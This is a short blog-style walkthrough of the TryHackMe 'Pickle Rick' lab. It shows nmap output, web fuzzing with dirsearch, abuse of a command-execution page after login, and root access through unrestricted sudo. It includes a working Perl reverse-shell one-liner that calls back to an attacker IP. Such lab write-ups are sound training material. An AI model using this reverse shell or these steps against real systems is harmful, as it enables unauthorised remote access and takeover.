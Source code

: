 ```yaml
---
title: TryHackMe | Pickle Rick
author: Zeropio
date: 2022-05-09
categories: [TryHackMe]
tags: [thm, linux]
permalink: /tryhackme/pickle-rick
---
```



# Enumeration
We start a nmap at the IP.
```
Nmap scan report for 10.10.253.214
Host is up (0.067s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f8:50:7b:e1:4c:53:63:5d:2b:c6:84:1a:66:e9:a0:04 (RSA)
|   256 19:a8:de:3e:70:d9:ba:ff:d5:2f:46:60:a2:e1:c3:e3 (ECDSA)
|_  256 70:de:54:34:34:75:c3:77:56:9e:00:b3:84:93:fe:97 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can do a curl to the webpage and get a user in the html:
```console
curl -i http://10.10.253.214/
```

We can try a fuzzer to the webpage:
```console
dirsearch -r -u http://10.10.253.214/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -e php,txt,html -f
```

# Explotation
We can try to access with ssh but we need the RSA.

We can get a **login.php** and access with the creds. We can see a command execution and try a reverse shell with perl:
```console
perl -e 'use Socket;$i="10.18.91.218";$p=9000;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```

# Privilege Escalation
If we list all the www-data privileges we can see that we can executed any code, so we can get root.
```console
> sudo -l
> sudo su
```
